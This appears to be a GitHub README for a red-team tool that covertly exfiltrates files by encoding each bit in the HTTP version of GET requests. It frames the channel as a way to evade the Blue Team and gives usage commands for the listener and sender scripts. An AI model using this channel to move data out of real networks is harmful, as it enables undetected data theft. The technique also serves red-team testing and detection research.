 # http-protocol-exfil

Use the HTTP protocol version to send a file bit by bit ("HTTP/1.0" is a 0 and "HTTP/1.1" is a 1). It uses GET requests so the Blue Team would only see the requests to your IP address. However, it takes a long time to send bigger files, for example it needs 1 hour to send 200 KB, and the amount of requests would be very high (8 times the number of bytes of the file).

![memillo](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/memillo.png)


## Create listener 

To run the listener use listener.py with one optional argument: the port it will be listening in.

```
python3 listener.py [PORT]
```

Example:

```
python3 listener.py 8080
```

## Send a file

To send a file use sender.py with two mandatory arguments: the file path and the url of the listener; and one optional argument: the name of the file created remotely (if not used, the name of the input file is used).

```
python3 sender.py -u URL -i INPUTFILE [-o OUTPUTFILE]
```

Example:

```
python3 sender.py -u "http://127.0.0.1:8080" -i test.txt -o updated_test.txt
```

---------------------------------------------------------------

## Example

First the file is sent:

![image1](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image1.png)

If the variable debug is set to True (it is by default) you can see the binary values in the listener log messages:

![image2](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image2.png)

The new file is created with the content of the input file:

![image3](https://raw.githubusercontent.com/ricardojoserf/ricardojoserf.github.io/master/images/http_protocol_exfil/image3.png)

---------------------------------------------------------------

## Motivation

I think (I am not sure) I read someone on Twitter who claimed to have used this to exfiltrate data and I liked the idea, if you are that person let me know.
